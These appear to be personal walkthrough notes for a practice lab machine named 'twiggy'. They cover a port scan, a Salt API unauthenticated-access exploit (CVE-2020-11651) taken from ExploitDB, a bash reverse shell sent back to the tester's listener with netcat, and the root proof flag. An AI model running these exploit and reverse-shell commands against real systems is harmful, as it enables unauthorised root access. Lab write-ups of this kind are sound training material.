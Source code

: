 `─$ autonmap -H 192.168.190.62 -t full`

`Running a full scan on 192.168.190.62`

`Host is likely running Unknown OS!`

`---------------------Starting Full Scan------------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`53/tcp   open  domain`
`80/tcp   open  http`
`4505/tcp open  unknown`
`4506/tcp open  unknown`
`8000/tcp open  http-alt`

`Making a script scan on all ports`

`PORT     STATE SERVICE VERSION`
`22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)`
`| ssh-hostkey:` 
`|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)`
`|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)`
`|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)`
`53/tcp   open  domain  NLnet Labs NSD`
`80/tcp   open  http    nginx 1.16.1`
`|_http-title: Home | Mezzanine`
`|_http-server-header: nginx/1.16.1`
`4505/tcp open  zmtp    ZeroMQ ZMTP 2.0`
`4506/tcp open  zmtp    ZeroMQ ZMTP 2.0`
`8000/tcp open  http    nginx 1.16.1`
`|_http-server-header: nginx/1.16.1`
`|_http-title: Site doesn't have a title (application/json).`
`|_http-open-proxy: Proxy might be redirecting requests`

`---------------------Finished all scans------------------------`

Check 192.168.190.62:80 and see that Mezzanine is running

Check 192.168.190.62:8000 and see an API is there
![[Pasted image 20240207231153.png]]

Throw that into google and it tells us that it's Salt REST API

![[Pasted image 20240207231246.png]]

See if it's on exploitDB, it is

![[Pasted image 20240207231337.png]]

Download the exploit

![[Pasted image 20240207231504.png]]

We know from the port scan earlier that 4505 is open so use that for the reverse shell

`python 48421x.py --master 192.168.190.62 --exec "bash -i >& /dev/tcp/192.168.45.235/4505 0>&1"`

`└─$ python 48421x.py --master 192.168.190.62 --exec "bash -i >& /dev/tcp/192.168.45.235/4505 0>&1"`
`[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.`
`/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.`
  `warn_until(`
`[+] Checking salt-master (192.168.190.62:4506) status... ONLINE`
`[+] Checking if vulnerable to CVE-2020-11651... YES`
`[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=`
`[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.235/4505 0>&1 on 192.168.190.62`
`[+] Successfully scheduled job: 20240208042155652733`
`/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/transport/base.py:129: TransportWarning: Unclosed transport! <salt.transport.zeromq.RequestClient object at 0x7f0709d4be50>` 
  `File "48421x.py", line 376, in <module>`
    `main()`

  `File "48421x.py", line 325, in main`
    `channel = init_minion(args.master_ip, args.master_port)`

  `File "48421x.py", line 47, in init_minion`
    `return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')`

  `File "/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/transport/client.py", line 31, in factory`
    `return salt.channel.client.ReqChannel.factory(opts, **kwargs)`

  `File "/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/channel/client.py", line 55, in factory`
    `return SyncWrapper(`

  `File "/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/utils/asynchronous.py", line 67, in __init__`
    `self.obj = cls(*args, **kwargs)`

  `File "/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/channel/client.py", line 137, in factory`
    `transport = salt.transport.request_client(opts, io_loop=io_loop)`

  `File "/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/transport/base.py", line 47, in request_client`
    `return salt.transport.zeromq.RequestClient(opts, io_loop=io_loop)`

  `File "/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/transport/zeromq.py", line 890, in __init__`
    `super().__init__(opts, io_loop)`

  `File "/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/salt/transport/base.py", line 145, in __init__`
    `super().__init__()`

  `warnings.warn(`
`TransportWarning: Enable tracemalloc to get the object allocation traceback`

Catch

`$└─$ nc -nlvp 4505$`
`$Ncat: Version 7.94SVN ( https://nmap.org/ncat )$`
`$Ncat: Listening on [::]:4505$`
`$Ncat: Listening on 0.0.0.0:4505$`
`$Ncat: Connection from 192.168.190.62:46832.$`
`$bash: no job control in this shell$`
`$[root@twiggy root]#$` 

`[root@twiggy root]# ls`
`ls`
`proof.txt`
`[root@twiggy root]# cat proof.txt`
`cat proof.txt`
`d1f0855b0fc8d0986a3aebd463d415d8`
